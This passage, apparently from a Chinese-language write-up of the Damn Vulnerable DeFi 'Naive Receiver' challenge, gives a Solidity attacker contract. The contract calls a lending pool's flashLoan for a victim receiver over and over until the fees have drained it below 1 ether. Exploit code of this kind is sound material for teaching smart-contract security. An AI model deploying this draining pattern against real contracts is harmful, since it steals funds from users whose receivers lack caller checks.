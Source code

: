 ```jsx
    receive() external payable {}
}

```

### FlashLoanReceiverAttacker 攻擊合約

```jsx
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./NaiveReceiverLenderPool.sol";

contract FlashLoanReceiverAttacker {
    NaiveReceiverLenderPool public pool;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function attack(address _receiver) external {
        while (payable(_receiver).balance >= 1 ether) {
            pool.flashLoan(_receiver, 0);
        }
    }
}

```

## References

[Damn Vulnerable DeFi](https://damnvulnerabledefi.xyz/)
